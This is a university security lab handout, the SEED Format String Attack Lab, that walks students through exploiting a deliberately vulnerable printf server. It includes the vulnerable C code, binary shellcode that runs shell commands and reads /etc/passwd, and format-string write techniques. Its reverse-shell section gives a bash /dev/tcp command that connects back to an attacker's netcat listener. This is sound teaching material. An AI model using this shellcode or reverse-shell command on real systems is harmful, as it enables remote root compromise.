

# Format String Attack Lab

```
Copyright © 2018 - 2020 by Wenliang Du.
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International
License. If you remix, transform, or build upon the material, this copyright notice must be left intact, or
reproduced in a way that is reasonable to the medium in which the work is being re-published.
```
## 1 Overview

The _printf()_ function in C is used to print out a string according to a format. Its first argument is called format string, which defines how the string should be formatted. Format strings use placeholders marked by the % character for the _printf()_ function to fill in data during the printing. The use of format strings is not only limited to the _printf()_ function; many other functions, such as _sprintf(), fprintf(), and scanf()_, also use format strings. Some programs allow users to provide the entire or part of the contents in a format string. If such contents are not sanitized, malicious users can use this opportunity to get the program to run arbitrary code. A problem like this is called format string vulnerability. 

The objective of this lab is for students to gain the first-hand experience on format string vulnerabilities by putting what they have learned about the vulnerability from class into actions. Students will be given a program with a format string vulnerability; their task is to exploit the vulnerability to achieve the following damage: (1) crash the program, (2) read the internal memory of the program, (3) modify the internal memory of the program, and most severely, (4) inject and execute malicious code using the victim program’s privilege. This lab covers the following topics: 

- Format string vulnerability, and code injection
- Stack layout
- Shellcode
- Reverse shell

**Readings and videos**. Detailed coverage of the format string attack can be found in the following:

- Chapter 6 of the SEED Book,Computer & Internet Security: A Hands-on Approach, 2nd Edition, by Wenliang Du. See details at https://www.handsonsecurity.net.
- Section 9 of the SEED Lecture at Udemy,Computer Security: A Hands-on Approach, by Wenliang Du. See details at https://www.handsonsecurity.net/video.html.
- The lab also involves reverse shell, which is covered in Chapter 9 of the SEED book.

**Lab environment**. You can perform the lab exercise on the SEED VM provided by the Cloudlabs.

**Note for instructors**. Instructors can customize this lab by choosing values for L. See Section 2.2 for details. Depending on the background of students and the time allocated for this lab, instructors can also make the attack on 64-bit programs optional, because it is more challenging. The attacks on 32-bit programs are sufficient to cover the basics of the format-string attacks. 


## 2 Environment Setup

### 2.1 Turning of Countermeasure

Modern operating systems uses address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of the format-string attack. To simplify the tasks in this lab, we turn off the address randomization using the following command: 

```
$ sudo sysctl -w kernel.randomize_va_space=0 
```

### 2.2 The Vulnerable Program

The vulnerable program used in this lab is called _format.c_, which can be found in the _server-code_ folder. This program has a format-string vulnerability, and your job is to exploit this vulnerability. The code listed below has the non-essential information removed, so it is different from what you get from the lab setup file. 

Listing 1: The vulnerable programformat.c(with non-essential information removed)

```
unsigned int target = 0x11223344;
char *secret = "A secret message\n";

void myprintf(char *msg)
{
    // This line has a format-string vulnerability
    printf(msg);
}

int main(int argc, char **argv)
{
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);
    myprintf(buf);
    return 1;
}
```

The above program reads data from the standard input, and then passes the data to _myprintf()_, which calls _printf()_ to print out the data. The way how the input data is fed into the _printf()_ function is unsafe, and it leads to a format-string vulnerability. We will exploit this vulnerability.  

The program will run on a server with the root privilege, and its standard input will be redirected to a TCP connection between the server and a remote user. Therefore, the program actually gets its data from a remote user. If users can exploit this vulnerability, they can cause damages. 

**Compilation.** We will compile the _format_ program into both 32-bit and 64-bit binaries. Our pre-built Ubuntu 20.04 VM is a 64-bit VM, but it still supports 32-bit binaries. All we need to do is to use the -m32 option in the _gcc_ command. For 32-bit compilation, we also use _-static_ to generate a statically-linked binary, which is self-contained and not depending on any dynamic library, because the 32-bit dynamic libraries are not installed in our containers.  

The compilation commands are already provided in _Makefile_. To compile the code, you need to type make to execute those commands. After the compilation, we need to copy the binary into the _fmt-containers_ folder, so they can be used by the containers. The following commands conduct compilation and installation. 

```
$ make
$ make install
```

During the compilation, you will see a warning message. This warning is generated by a countermeasure implemented by the gcc compiler against format string vulnerabilities. We can ignore this warning for now. 

```
format.c: In function ’myprintf’:
format.c:33:5: warning: format not a string literal and no format arguments
[-Wformat-security]
33 | printf(msg);
| ˆ ̃ ̃ ̃ ̃ ̃
```

It should be noted that the program needs to be compiled using the "_-z execstack_" option, which allows the stack to be executable. Our ultimate goal is to inject code into the server program’s stack, and then trigger the code. Non-executable stack is a countermeasure against stack-based code injection attacks, but it can be defeated using the return-to-libc technique, which is covered by another SEED labs. In this lab, for simplicity, we disable this defeat-able countermeasure. 

**For instructors.** To make the lab slightly different from the one offered in the past, instructors can change the value for _BUF_SIZE_ by requiring students to compile the server code using a different _BUF_SIZE_ value. In Makefile, the _BUF_SIZE_ value is set by the variable L. Instructors should pick a value for this variable based on the suggestion described in _format.c_. 

**The Server Program**. In the _server-code_ folder, you can find a program called _server.c_. This is the main entry point of the server. It listens to port 9090. When it receives a TCP connection, it invokes the _format_ program, and sets the TCP connection as the standard input of the _format_ program. This way, when format reads data from stdin, it actually reads from the TCP connection, i.e. the data are provided by the user on the TCP client side. It is not necessary for students to read the source code of _server.c_.  

We have added a little bit of randomness in the server program, so different students are likely to see different values for the memory addresses and frame pointer. The values only change when the container restarts, so as long as you keep the container running, you will see the same numbers (the numbers seen by different students are still different). This randomness is different from the address-randomization countermeasure. Its sole purpose is to make students’ work a little bit different. 

### 2.3 Container Setup and Commands

Files needed for this lab are included in Labsetup.zip, which can be fetched by running the following commands.

```
sudo wget https://github.com/CloudLabs-MOC/CloudLabs-SEED/blob/main/Software%20Security/Format%20String%20Vulnerability/Lab%20files/Labsetup.zip
```

```
sudo unzip Labsetup.zip
```
Enter the _Labsetup_ folder, and use the _docker-compose.yml_ file to set up the lab environment. Detailed explanation of the content in this file and all the involved _Dockerfile_ can be found from the user manual, which is linked to the website of this lab. If this is the first time you set up a SEED lab environment using containers, it is very important that you read the user manual. 

In the following, we list some of the commonly used commands related to Docker and Compose. Since we are going to use these commands very frequently, we have created aliases for them in the .bashrc file (in our provided SEEDUbuntu 20.04 VM).

```
$ docker-compose build # Build the container image
$ docker-compose up # Start the container
$ docker-compose down # Shut down the container

// Aliases for the Compose commands above
$ dcbuild # Alias for: docker-compose build
$ dcup # Alias for: docker-compose up
$ dcdown # Alias for: docker-compose down
```

All the containers will be running in the background. To run commands on a container, we often need to get a shell on that container. We first need to use the "_docker ps_" command to find out the ID of the container, and then use "_docker exec_" to start a shell on that container. We have created aliases for them in the _.bashrc_ file. 

```
$ dockps // Alias for: docker ps --format "{{.ID}} {{.Names}}"
$ docksh <id> // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275 hostA-10.9.0.
0af4ea7a3e2e hostB-10.9.0.
9652715c8e0a hostC-10.9.0.

$ docksh 96
root@9652715c8e0a:/#

// Note: If a docker command requires a container ID, you do not need to
// type the entire ID string. Typing the first few characters will
// be sufficient, as long as they are unique among all the containers.
```

If you encounter problems when setting up the lab environment, please read the “Common Problems” section of the manual for potential solutions. 

## 3 Task 1: Crashing the Program

When we start the containers using the included _docker-compose.yml_ file, two containers will be started, each running a vulnerable server. For this task, we will use the server running on _10.9.0.5,_ which runs a 32-bit program with a format-string vulnerability. Let’s first send a benign message to this server. We will see the following messages printed out by the target container (the actual messages you see may be different). 

```
$ echo hello | nc 10.9.0.5 9090
Press Ctrl+C

// Printouts on the container’s console
server-10.9.0.5 | Got a connection from 10.9.0.
server-10.9.0.5 | Starting format
server-10.9.0.5 | Input buffer (address): 0xffffd2d


server-10.9.0.5 | The secret message’s address: 0x080b
server-10.9.0.5 | The target variable’s address: 0x080e
server-10.9.0.5 | Input size: 6
server-10.9.0.5 | Frame Pointer inside myprintf() = 0xffffd1f
server-10.9.0.5 | The target variable’s value (before): 0x
server-10.9.0.5 | hello
server-10.9.0.5 | (ˆ_ˆ)(ˆ_ˆ) Returned properly (ˆ_ˆ)(ˆ_ˆ)
server-10.9.0.5 | The target variable’s value (after): 0x
```

The server will accept up to 1500 bytes of the data from you. Your main job in this lab is to construct different payloads to exploit the format-string vulnerability in the server, so you can achieve the goal specified in each task. If you save your payload in a file, you can send the payload to the server using the following command. 

```
$ cat <file> | nc 10.9.0.5 9090
Press Ctrl+C if it does not exit.
```

**Task**. Your task is to provide an input to the server, such that when the server program tries to print out the user input in the _myprintf()_ function, it will crash. You can tell whether the format program has crashed or not by looking at the container’s printout. If _myprintf()_ returns, it will print out "_Returned properly_" and a few smiley faces. If you don’t see them, the format program has probably crashed. However, the server program will not crash; the crashed format program runs in a child process spawned by the server program.  

Since most of the format strings constructed in this lab can be quite long, it is better to use a program to do that. Inside the _attack-code_ directory, we have prepared a sample code called build _string.py_ for people who might not be familiar with Python. It shows how to put various types of data into a string. 

## 4 Task 2: Printing Out the Server Program’s Memory

The objective of this task is to get the server to print out some data from its memory (we will continue to use _10.9.0.5_). The data will be printed out on the server side, so the attacker cannot see it. Therefore, this is not a meaningful attack, but the technique used in this task will be essential for the subsequent tasks 

- **Task 2.A: Stack Data**. The goal is to print out the data on the stack. How many %x format specifiers do you need so you can get the server program to print out the first four bytes of your input? You can put some unique numbers (4 bytes) there, so when they are printed out, you can immediately tell. This number will be essential for most of the subsequent tasks, so make sure you get it right. 

- **Task 2.B: Heap Data** There is a secret message (a string) stored in the heap area, and you can find the address of this string from the server printout. Your job is to print out this secret message. To achieve this goal, you need to place the address (in the binary form) of the secret message in the format string.  

Most computers are small-endian machines, so to store an address _0xAABBCCDD_ (four bytes on a 32-bit machine) in memory, the least significant byte _0xDD_ is stored in the lower address, while the most significant byte 0xAA is stored in the higher address. Therefore, when we store the address in a buffer, we need to save it using this order: _0xDD, 0xCC, 0xBB_, and then _0xAA_. In Python, you can do the following: 

    number = 0xAABBCCDD
    content[0:4] = (number).to_bytes(4,byteorder=’little’)


## 5 Task 3: Modifying the Server Program’s Memory

The objective of this task is to modify the value of the target variable that is defined in the server program (we will continue to use _10.9.0.5_). The original value of target is _0x11223344_. Assume that this variable holds an important value, which can affect the control flow of the program. If remote attackers can change its value, they can change the behavior of this program. We have three sub-tasks. 

- **Task 3.A: Change the value to a different value**.In this sub-task, we need to change the content of the target variable to something else. Your task is considered as a success if you can change it to a different value, regardless of what value it may be. The address of the target variable can be found from the server printout.
 
- **Task 3.B: Change the value to 0x5000**. In this sub-task, we need to change the content of the target variable to a specific value _0x5000_. Your task is considered as a success only if the variable’s value becomes_ 0x5000_. 

- **Task 3.C: Change the value to 0xAABBCCDD** .This sub-task is similar to the previous one, except that the target value is now a large number. In a format string attack, this value is the total number of characters that are printed out by the _printf()_ function; printing out this large number of characters may take hours. You need to use a faster approach. The basic idea is to use _%hn_ or _%hhn_, instead of _%n_, so we can modify a two-byte (or one-byte) memory space, instead of four bytes. Printing out 2 16 characters does not take much time. More details can be found in the SEED book. 

## 6 Task 4: Inject Malicious Code into the Server Program

Now we are ready to go after the crown jewel of this attack, code injection. We would like to inject a piece of malicious code, in its binary format, into the server’s memory, and then use the format string vulnerability to modify the return address field of a function, so when the function returns, it jumps to our injected code.  

The technique used for this task is similar to that in the previous task: they both modify a 4-byte number in the memory. The previous task modifies the target variable, while this task modifies the return address field of a function. Students need to figure out the address for the return-address field based on the information printed out by the server. 

### 6.1 Understanding the Stack Layout

To succeed in this task, it is essential to understand the stack layout when the _printf()_ function is invoked inside _myprintf()_. Figure 1 depicts the stack layout. It should be noted that we intentionally placed a dummy stack frame between the _main_ and _myprintf_ functions, but it is not shown in the figure. Before working on this task, students need to answer the following questions (please include your answers in the lab report): 

- **Question 1**:What are the memory addresses at the locations marked by ➋ and ➌?
- **Question 2**:How many _%x_ format specifiers do we need to move the format string argument pointer to ➌? Remember, the argument pointer starts from the location above ➊.

### 6.2 Shellcode

Shellcode is typically used in code injection attacks. It is basically a piece of code that launches a shell, and is usually written in assembly languages. In this lab, we only provide the binary version of a generic 



shellcode, without explaining how it works, because it is non-trivial. If you are interested in how exactly shellcode works, and want to write a shellcode from scratch, you can learn that from a separate SEED lab called Shellcode Lab. Our generic shellcode is listed in the following (we only list the 32-bit version): 

```
shellcode = (
"\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
"\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
"\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
"/bin/bash*"                                                ➊
"-c*"                                                       ➋
"/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd *"      ➌
# The * in this line serves as the position marker *
"AAAA" # Placeholder for argv[0] --> "/bin/bash"
"BBBB" # Placeholder for argv[1] --> "-c"
"CCCC" # Placeholder for argv[2] --> the command string
"DDDD" # Placeholder for argv[3] --> NULL
).encode(’latin-1’)
```

The shellcode runs the "/bin/bash" shell program (Line ➊), but it is given two arguments, "-c" (Line ➋) and a command string (Line ➌). This indicates that the shell program will run the commands in the second argument. The * at the end of these strings is only a placeholder, and it will be replaced by one byte of 0x00 during the execution of the shellcode. Each string needs to have a zero at the end, but we cannot put zeros in the shellcode. Instead, we put a placeholder at the end of each string, and then dynamically put a zero in the placeholder during the execution.

If we want the shellcode to run some other commands, we just need to modify the command string in Line ➌. However, when making changes, we need to make sure not to change the length of this string, because the starting position of the placeholder for the _argv[]_ array, which is right after the command string, is hardcoded in the binary portion of the shellcode. If we change the length, we need to modify the binary part. To keep the star at the end of this string at the same position, you can add or delete spaces.  

Both _32-bit_ and _64-bit_ versions of shellcode are included in the _exploit.py_ inside the _attack-code_ folder. You can use them to build your format strings. 

### 6.3 Your Task

Please construct your input, feed it to the server program, and demonstrate that you can successfully get the server to run your shellcode. In your lab report, you need to explain how your format string is constructed. Please mark on Figure 1 where your malicious code is stored (please provide the concrete address). 

**Getting a Reverse Shell**. We are not interested in running some pre-determined commands. We want to get a root shell on the target server, so we can type any command we want. Since we are on a remote machine, if we simply get the server to run _/bin/bash_, we won’t be able to control the shell program. Reverse shell is a typical technique to solve this problem. Section 9 provides detailed instructions on how to run a reverse shell. Please modify the command string in your shellcode, so you can get a reverse shell on the target server. Please include screenshots and explanation in your lab report. 

## 7 Task 5: Attacking the 64-bit Server Program

In the previous tasks, our target servers are 32-bit programs. In this task, we switch to a 64-bit server program. Our new target is _10.9.0.6_, which runs the 64-bit version of the _format_ program. Let’s first send a hello message to this server. We will see the following messages printed out by the target container 

```
$ echo hello | nc 10.9.0.6 9090
Press Ctrl+C
```
```
// Printouts on the container’s console
server-10.9.0.6 | Got a connection from 10.9.0.
server-10.9.0.6 | Starting format
server-10.9.0.6 | Input buffer (address): 0x00007fffffffe
server-10.9.0.6 | The secret message’s address: 0x
server-10.9.0.6 | The target variable’s address: 0x
server-10.9.0.6 | Input size: 6
server-10.9.0.6 | Frame Pointer (inside myprintf): 0x00007fffffffe
server-10.9.0.6 | The target variable’s value (before): 0x
server-10.9.0.6 | hello
server-10.9.0.6 | (ˆ_ˆ)(ˆ_ˆ) Returned from printf() (ˆ_ˆ)(ˆ_ˆ)
server-10.9.0.6 | The target variable’s value (after): 0x
```

You can see the values of the frame pointer and buffer’s address become 8 bytes long (instead of 4 bytes in 32-bit programs). Your job is to construct your payload to exploit the format-string vulnerability of the server. You ultimate goal is to get a root shell on the target server. You need to use the 64-bit version of the shellcode. 

**Challenges caused by 64-bit Address**. A challenge caused by the x64 architecture is the zeros in the address. Although the x64 architecture supports 64-bit address space, only the address from _0x00_ through _0x00007FFFFFFFFFFF_ is allowed. That means for every address (8 bytes), the highest two bytes are always zeros. This causes a problem 


In the attack, we need to place addresses inside the format string. For 32-bit programs, we can put the addresses anywhere, because there are no zeros inside the address. We can no longer do this for the 64-bit programs. If you put an address in the middle of your format string, when _printf()_ parses the format string, it will stop the parsing when it sees a zero. Basically, anything after the first zero in a format string will not be considered as part of the format string.  

The problem caused by zeros is different from that in the buffer overflow attack, in which, zeros will terminate the memory copy if _strpcy()_ is used. Here, we do not have memory copy in the program, so we can have zeros in our input, but where to put them is critical. There are many ways to solve this problem, and we leave this to students. In the lab report, students should explain how they have solved this problem. 

**A userful technique: moving the argument pointer freely**. In a format string, we can use %x to move the argument pointer va_list to the next optional arguments. We can also directly move the pointer to the k-th optional argument. This is done using the format string’s parameter field (in the form of k$). The following code example uses "%3$.20x" to print out the value of the 3rd optional argument (number 3), and then uses "%6$n" to write a value to the 6th optional argument (the variable var, its value will become 20). Finally, using %2$.10x, it moves the pointer back to the 2nd optional argument (number 2), and print it out. You can see, using this method, we can move the pointer freely back and forth. This technique can be quite useful to simplify the construction of the format string in this task. 

```
#include <stdio.h>
int main()
{
    int var = 1000;
    printf("%3$.20x%6$n%2$.10x\n", 1, 2, 3, 4, 5, &var);
    printf("The value in var: %d\n",var);
    return 0;
}
```
```
----- Output ------
seed@ubuntu:$ a.out
000000000000000000030000000002
The value in var: 20
```

## 8 Task 6: Fixing the Problem

Remember the warning message generated by the _gcc_ compiler? Please explain what it means. Please fix the vulnerability in the server program, and recompile it. Does the compiler warning go away? Do your attacks still work? You only need to try one of your attacks to see whether it still works or not. 

## 9 Guidelines on Reverse Shell

The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection. At the other end of the connection is a program run by the attacker; the program simply displays whatever comes from the shell at the other end, and sends whatever is typed by the attacker to the shell, over the network connection.  

A commonly used program by attackers is netcat, which, if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server. In the following experiment, netcat (nc for short) is used to listen for a connection on port 9090 (let us focus only on the first line). 

```
Attacker(10.0.2.6):$ nc -nv -l 9090 <- **Waiting for reverse shell**
Listening on 0.0.0.0 9090
Connection received on 10.0.2.5 39452
Server(10.0.2.5):$ <- **Reverse shell from 10.0.2.5.**
Server(10.0.2.5):$ ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet **10.0.2.5** netmask 255.255.255.0 broadcast 10.0.2.
        ...
```

The above nc command will block, waiting for a connection. We now directly run the following bash program on the Server machine (_10.0.2.5_) to emulate what attackers would run after compromising the server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating that the shell is running on the Server machine; we can type the ifconfig command to verify that the IP address is indeed 10.0.2.5, the one belonging to the Server machine. Here is the bash command: 

`Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1`

The above command represents the one that would normally be executed on a compromised server. It is quite complicated, and we give a detailed explanation in the following: 

- "/bin/bash -i": The option i stands for interactive, meaning that the shell must be interactive (must provide a shell prompt) .

- "> /dev/tcp/10.0.2.6/9090": This causes the output device (stdout) of the shell to be redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems, stdout’s file descriptor is 1. 

- "0<&1": File descriptor 0 represents the standard input device (stdin). This option tells the system to use the standard output device as the stardard input device. Since stdout is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection. 

- ""2>&1": File descriptor 2 represents the standard error stderr. This causes the error output to be redirected to stdout, which is the TCP connection.


In summary, the command "_/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1_" starts a bash shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection. In our experiment, when the bash shell command is executed on _10.0.2.5_, it connects back to the netcat process started on _10.0.2.6_. This is confirmed via the "Connection from _10.0.2.5_ ..." message displayed by netcat. 

## 10 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you have observed. You also need to provide explanation to the observations that are interesting or surprising. Please also list the important code snippets followed by explanation. Simply attaching code without any explanation will not receive credits. 


